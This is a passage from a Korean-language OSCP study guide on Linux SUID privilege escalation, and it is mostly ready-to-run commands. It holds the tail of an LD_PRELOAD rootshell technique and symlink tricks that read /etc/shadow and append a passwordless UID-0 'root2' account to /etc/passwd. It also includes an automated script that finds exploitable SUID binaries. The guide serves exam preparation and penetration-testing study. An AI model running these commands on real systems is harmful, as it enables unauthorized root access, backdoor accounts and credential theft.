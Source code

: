 ```bash
    exit(0);
}
EOF
gcc -fPIC -shared -nostartfiles -o /tmp/rootshell.so /tmp/rootshell.c
export LD_PRELOAD=/tmp/rootshell.so
/경로/취약한_SUID_바이너리
```

### 심볼릭 링크 기법

```bash
# 심볼릭 링크를 이용한 파일 액세스
ln -sf /etc/shadow /tmp/test
cat /tmp/test  # shadow 파일 내용 읽기

# 심볼릭 링크로 중요 파일 수정
ln -sf /etc/passwd /tmp/passwd
echo 'root2:x:0:0::/root:/bin/bash' >> /tmp/passwd
```

## 5. OSCP 시험에 유용한 자동 스크립트

```bash
#!/bin/bash
# SUID 권한 상승 자동화 스크립트 (OSCP 시험용)
echo "[*] SUID 파일 자동 탐색 시작"
find / -perm -4000 -type f 2>/dev/null | tee suid_list.txt

echo -e "\n[*] root 소유 SUID 파일 필터링"
cat suid_list.txt | xargs -I{} ls -l {} 2>/dev/null | grep '^-rws.* root' | tee root_suid.txt

echo -e "\n[*] 알려진 취약 바이너리 탐색"
cat suid_list.txt | grep -E 'bash|find|nmap|vim|less|more|man|python|perl|ruby|awk|env|cp|tar|docker|screen' | tee vuln_suid.txt

echo -e "\n[*] 발견된 SUID 파일 분석 결과"
for binary in $(cat vuln_suid.txt); do
    echo -e "\n[+] 분석 중: $binary"
    file $binary
    strings $binary | grep -i "system\|exec\|popen\|sh\|bash" | head -5
done

echo -e "\n[*] 권한 상승 시도 가능한 파일 목록"
cat vuln_suid.txt
```

## 6. 일반적인 권한 상승 과정

### 1. SUID 파일 검색

```bash
find / -perm -4000 -type f 2>/dev/null
```

